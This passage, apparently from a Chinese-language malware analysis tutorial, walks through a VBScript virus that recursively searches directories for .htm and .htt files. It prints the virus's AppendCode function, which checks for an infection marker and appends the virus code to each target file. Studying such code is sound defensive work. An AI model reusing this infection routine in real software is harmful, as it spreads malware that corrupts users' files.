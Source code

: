 ​        这一部分其实和我们前面的讲解代码很类似，都是先将当前文件的路径作为参数传入后，进行错误判断——如果路径不存在就直接跳出函数避免报错，否则脚本将会直接暴露。与此同时我们可以看到该脚本的目标是目录下的所有Htm或者Htt格式的非常见格式文件，在找到这样的文件后，脚本就会调用对应的Appendcode函数将需要插入的代码插入进Htm或者Htt文件中去。后面函数部分就通过自身的函数递归来不断查找子目录里所有符合该后缀格式要求的文件，并且不断插入代码，感染这些文件直至递归结束。基于这样的函数可以进行一些进阶的文件搜索工作。

再看看第二部分插入代码段的函数：

```vbscript
' 尝试在该html文件的尾部拼加自己的代码
Function AppendCode(filespec)
    dim f1 ' 访问其文件属性
    set f1 = fso.GetFile(filespec)
    if f1.Size>0 and f1.attributes=32 then ' 只关心长度非0的正常归档文件
        dim itstext ' 目标文本
        itstext = fso.OpenTextFile(filespec, ForReading).readall
        if instrrev(itstext, mignature & " B") = 0 then ' 还没感染
            dim file1
            set file1 = fso.OpenTextFile(filespec, ForAppending)
            file1.Write vbcrlf & vbcrlf & mytext & vbcrlf & vbcrlf ' 拼加之
            file1.Close
        end if
    end if
End Function
```

不过这段代码将原有代码段插入找到的文件后，并没有复制一个副本再删除源文件。



